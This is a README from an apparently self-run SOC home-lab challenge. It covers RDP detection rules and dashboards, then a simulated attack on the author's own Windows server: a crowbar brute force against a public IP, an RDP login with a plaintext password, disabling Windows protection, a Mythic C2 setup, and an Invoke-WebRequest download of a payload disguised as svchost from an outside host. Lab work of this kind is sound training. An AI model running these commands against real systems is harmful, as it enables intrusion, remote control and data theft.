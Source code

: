 - **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2043%20Creating%20an%20account%20with%20shodan%20and%20searching%20port%203389.PNG) 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](link_to_your_image) 
  ![Censys Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2044%20Using%20Censys%20for%20Finding%20open%20RDP%20ports%20too.PNG) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](link_to_your_image) <!-- Replace with actual image link -->
- Generated alerts similar to earlier SSH queries.
  ![Alert Generation](link_to_your_image) <!-- Replace with actual image link -->
  ![Failed RDP Log Query](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2045%20Saving%20a%20log%20query%20for%20Failed%20RDP%20Login%20Attempts%2C%20seeing%20my%20own%20log!.PNG) <!-- Replace with actual image link -->
- Created an alert for failed RDP attempts.
  ![Alert Generation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2046%20Creating%20the%20Alert%20rule%20for%20failed%20RDP%20Attempts.PNG) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](link_to_your_image) <!-- Replace with actual image link -->
  ![Brute Force Alert](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2047%20Generating%20an%20alert%20via%20brute%20force%20RDP.PNG) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](link_to_your_image) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment.
      ![Preconfigured Rules](link_to_your_image) <!-- Replace with actual image link -->
      ![Detection Rule Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2048%20This%20is%20where%20we%20make%20REAL%20alerts.PNG) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment. I chose to make my own
      ![Preconfigured Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2049%20Lets%20Create%20a%20new%20rule.PNG) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](link_to_your_image) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%205%20Set%20it%20to%20this%20so%20you%20can%20access%20it%20via%20SOC%20Laptop.png) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2050%20Select%20this%20type%20of%20rule.PNG) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2052%20My%20new%20rules%20are%20set.PNG) <!-- Replace with actual image link -->

### 4. Data Visualization
- Created maps for new RDP data queries (following SSH attempt mapping steps).
  ![RDP Data Map](link_to_your_image) <!-- Replace with actual image link -->
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](link_to_your_image) <!-- Replace with actual image link -->
      ![SSH Attempts Visualization](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2054%20Created%20some%20tabled%20for%20my%20dashboard%20to%20visualize%20SSH%20data%20on%20my%20linux%20server.PNG) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table](link_to_your_image) <!-- Replace with actual image link -->
      ![RDP Activity Table]([link_to_your_image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2055%20Made%20some%20tables%20for%20the%20RDP%20activity%20on%20Windows%20Server.PNG)) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](link_to_your_image) <!-- Replace with actual image link -->
  ![Attack Diagram](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2056%20Network%20Attack%20Diagram.PNG) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](link_to_your_image) <!-- Replace with actual image link -->
- Verified Docker status before restarting the service.
  ![Docker Status](link_to_your_image) <!-- Replace with actual image link -->
  ![Ubuntu Server Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2057%20Install%20Mythic%20Github%20Repo.PNG) <!-- Replace with actual image link -->
- Checked Docker status before restarting the service.
  ![Docker Status](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2058%20run%20the%20docker%20install%20command%20in%20your%20mythic%20directory.PNG) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
  ![Starting Mythic](link_to_your_image) <!-- Replace with actual image link -->
### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](link_to_your_image) <!-- Replace with actual image link -->
  ![Firewall Configuration](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2059%20This%20is%20what%20my%20firewall%20looks%20like%20now%2C%20only%20allowing%20my%20windows%20and%20linux%20server%2C.PNG) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](link_to_your_image) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2060%20Get%20your%20mythic%20admin%20password.PNG) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2061%20We're%20in%20the%20mythic%20dashboard!.PNG) <!-- Replace with actual image link -->
### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password.
  ![Target File Creation](link_to_your_image) <!-- Replace with actual image link -->
- Moved to Kali Linux's wordlists directory and prepared `rockyou.txt`:
- Created a target file on the Windows VM with admin password called "passwords.txt"
- Moved to Kali Linux machine wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](link_to_your_image) <!-- Replace with actual image link -->
  ![Preparing Wordlists](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2062%20lets%20access%20our%20wordlists%20directory.png) <!-- Replace with actual image link -->
### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access.
  ![Wordlist Modification](link_to_your_image) <!-- Replace with actual image link -->
- Added the Windows password to the wordlist for easier access. This way we can simulate our attack as if someone brute forced
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](link_to_your_image) <!-- Replace with actual image link -->
- **Target File Setup**: 
    - Created `target.txt` containing the public IP and username:
      ```
      155.138.220.109 Administrator
      ```
  ![Target File Setup](link_to_your_image) <!-- Replace with actual image link -->
  ![Crowbar Installation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2064%20Crowbar%20Successfully%20installed.png) <!-- Replace with actual image link -->
- (Note, I extracted the first 50 words in rockyou.txt to a file named top_50_words.txt, this is the text file i added the windows server password into)
- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](link_to_your_image) <!-- Replace with actual image link -->
  ![Brute Force Command](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2066%20Successful%20brute%20force!.png) <!-- Replace with actual image link -->
### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](link_to_your_image) <!-- Replace with actual image link -->
  ![Accessing RDP Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2067%20Successfully%20in%20the%20RDP%20session!.png) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
  ![Command Execution](link_to_your_image) <!-- Replace with actual image link -->
- Turn off windows protection
- ![image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2068%20lets%20disable%20all%20the%20protection.png)
### 12. Created the payload with your installed services:
    - Ensured it calls back to the C2 server's public IP.
      [image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2073%20put%20what%20you%20want%20in%20your%20payload%2C%20and%20make%20it%20call%20back%20to%20your%20C2%20server.PNG)

### 12. Downloading and Executing Payload
### 13. Downloading and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
  ![Mythic Agent Download](link_to_your_image) <!-- Replace with actual image link -->

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
  ![HTTP Profile Installation](link_to_your_image) <!-- Replace with actual image link -->

- Created payload:
    - Ensured it calls back to the C2 server's public IP.
    - Downloaded the payload using:
- Allow port 80:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ufw allow 80
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->

### 13. Finalizing the Attack
- Allowed HTTP connection on firewall:
  - Allow port 9999:
    ```bash
    ufw allow 80
    ufw allow 9999
    ```
  
- Ran the payload on the Windows server.

    
- run the python session:
    ```bash
    python3 -m http.server 9999
    ```
    
- Downloaded the payload onto our windows server RDP session:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```

### 14. Monitor The Connection
- Result of the payload on the Windows server.
  ![Payload Execution](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2077%20We%20can%20see%20our%20established%20session.PNG)
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2078%20Our%20attack%20was%20successful%2C%20we%20got%20the%20file.PNG) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
